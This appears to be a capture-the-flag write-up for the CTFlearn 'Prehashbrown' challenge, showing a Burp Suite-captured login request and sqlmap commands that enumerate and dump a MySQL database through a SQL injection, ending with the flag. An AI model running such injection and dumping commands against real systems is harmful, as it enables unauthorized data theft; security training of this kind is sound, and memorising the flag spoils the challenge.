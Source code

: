 ## Prehashbrown
The main idea finding the flag is get flag SQL Injection using Burpsuite and exploiting Database.

#### Step-1:
I visited the given link: [Hashbrown Database](http://138.197.193.132:5000/login)

<img src="Register.png">

#### Step-2:

<img src="Search.png">

This search bar is SQL Injection Vulnerable. So, using Burpsuite, I capture the request header and saved as `header.txt`.

```
POST / HTTP/1.1
Host: 138.197.193.132:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.197.193.132:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Cookie: session=.eJwtzrERwzAIAMBdVLtAWCDwMjkQcElrx1Uuu6fJT_Cf9qgzr2c73uedW3u8oh0NVdNShiyl3MWRcAhG4FRmNQvupDjJuIYB7VyuFXuklJUvAy5z8M6046o1WIbmkgpP7xCGKg49xmKPKQTsgrIIQqlnjWxbu688_xmY7fsDJpIwUQ.XgoN7g.8npc5r-RdNRbhXE0vKTNozaJMPM
Connection: close
Upgrade-Insecure-Requests: 1

search=flag
```
#### Step-3:
So, I started to exploit the Database using SQLMap.
`sqlmap -r header.txt --dbs --batch`

Output:
```sql
[time][INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
[time][INFO] fetching database names
available databases [2]:
[*] information schema
[*] prehashbrown
```

#### Step-4:
So, I tried to enumerate the `prehashbrown` table.
```sql
sqlmap -r header.txt -D prehashbrown --table --batch
```

Output:
```sql
...
[time] [INFO] fetching tables for database:
Database: prehashbrown
[2 tables]
+------------+
| user	     |
| hashbrown  |
+------------+
```

#### Step-5:
The flag is within the `hashbrown` table and I dumped all information from the table.

```sql
sqlmap -r header.txt -D prehashbrown -T hashbrown --column --batch --dump
```

#### Step-6:
Finally the flag becomes: 
`CTFlearn{h4shbr0wns_0n_th3_s3rv3r_@!#$<>[]}`